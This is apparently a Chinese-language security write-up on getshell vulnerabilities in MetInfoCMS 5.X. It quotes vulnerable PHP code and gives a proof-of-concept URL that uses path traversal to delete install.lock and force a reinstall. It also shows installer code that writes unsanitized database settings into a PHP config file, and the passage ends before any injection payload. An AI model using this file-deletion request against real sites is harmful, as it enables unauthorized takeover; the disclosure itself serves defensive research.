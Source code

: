 MetInfoCMS-5.X版本GETSHELL漏洞合集  

## 0x00 前言

2018年1月底MetInfoCMS官方隆重发布6.0版本，调整了之前“漏洞百出”的框架结构，修（杜）复（绝）了多个5.X的版本后台Gestshell漏洞。

## 0x01安装过程过滤不严导致Getshell

*前提:有删除/config/install.lock权限*
> 默认安装的时候设置了权限的@chmod('../config/install.lock',0554);，所以需要在权限修改了的情况下才能利用这个

### 1. 结合网上爆出的后台任意文件删除漏洞

```php
#/admin/app/batch/csvup.php

$classflie=explode('_',$fileField);
$classflie=explode('-',$classflie[count($classflie)-1]);
$class1=$classflie[0];
$class2=$classflie[1];
$class3=$classflie[2];
$class=$class3?$class3:($class2?$class2:$class1); 
$classcsv=$db->get_one("select * from $met_column where id=$class");
if(!$classcsv){
metsave("../app/batch/contentup.php?anyid=$anyid&lang=$lang",$lang_csvnocolumn,$depth);
}

# 省略代码

@file_unlink($flienamecsv);
```

删除/config/install.lock文件可以导致重装（需要由对应的删除权限），删除文件的poc如下：

```html
http://xxx.com/admin/app/batch/csvup.php?fileField=1_1231-1&flienamecsv=../../../config/install.lock
```

### 2. 重装时数据库配置文件过滤不当

```php
#/install/index.php
    case 'db_setup':
    {
        if($setup==1){
            $db_prefix      = trim($db_prefix);
            $db_host        = trim($db_host);
            $db_username    = trim($db_username);
            $db_pass        = trim($db_pass);
            $db_name        = trim($db_name);
            $config="<?php
                   /*
                   con_db_host = \"$db_host\"
                   con_db_id   = \"$db_username\"
                   con_db_pass    = \"$db_pass\"
                   con_db_name = \"$db_name\"
                   tablepre    =  \"$db_prefix\"
                   db_charset  =  \"utf8\";
                  */
                  ?>";

            $fp=fopen("../config/config_db.php",'w+');
            fputs($fp,$config);
            fclose($fp);
```